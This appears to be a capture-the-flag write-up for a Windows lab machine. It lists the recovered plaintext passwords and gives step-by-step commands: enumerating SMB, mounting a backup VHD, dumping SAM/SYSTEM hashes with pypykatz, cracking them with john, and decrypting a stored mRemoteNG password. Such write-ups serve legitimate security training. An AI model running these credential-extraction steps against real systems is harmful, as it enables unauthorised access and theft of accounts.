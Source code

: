 ## Info
### Credential
 User | Password       | Service | Note
------|----------------|---------|-------
L4mpje|bureaulampje    |         |
Admin |thXLHM96BeKL0ER2|


### SMB
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
Backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

## Path
### User
1. By trying, I found `guest` user exist on SMB.
```
$ rpcclient $ip
Enter WORKGROUP\ice1187's password: 
Bad SMB2 signature for message
[0000] 00 00 00 00 00 00 00 00   00 00 00 00 00 00 00 00   ........ ........
[0000] F0 3F A0 7B F9 A8 CE 2C   D4 41 E4 18 25 B0 CE 6B   .?.{..., .A..%..k
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
$ rpcclient -U guest $ip
Enter WORKGROUP\guest's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
2. There are some `.vhd` files in the share, but it is too large to be downloaded. So I mount the share, than mount the `.vhd` file.
```
$ sudo mount -t cifs "//$ip/Backups/" ./mnt/Backups
$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro ../../../../vhd
```
3. Get `SAM` and `SYSTEM` registry hives, then dump the credentials using `pypykatz`.
```
$ sudo cp vhd/Windows/System32/config/SAM ..
$ sudo cp vhd/Windows/System32/config/SYSTEM ..
$ pypykatz registry --sam SAM SYSTEM
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 8b56b2cb5033d8e2e289c26f8939a25f
============== SAM hive secrets ==============
HBoot Key: 335e6c10b1dce6433e9ef82d30f49d3a3463f8e0097de6f0d90d07b234f03d52
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
4. Crack the NTLM hash and get L4mpje's password, then login via SSH and get the user flag.
```
$ sudo john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt creds.ntlm --format=nt
```

### Root
1. Found `mRemoteNG` is installed by looking into `\Program Files (x86)`, and get the encrypted password of the app at `\Users\L4mpje\AppData\Roaming\mRemoteNG`.
2. Decrypt the password with [mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt).
```
$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7l
WWA10dQKiw==
Password: thXLHM96BeKL0ER2
```
3. Login as admin with the password and get the root flag.

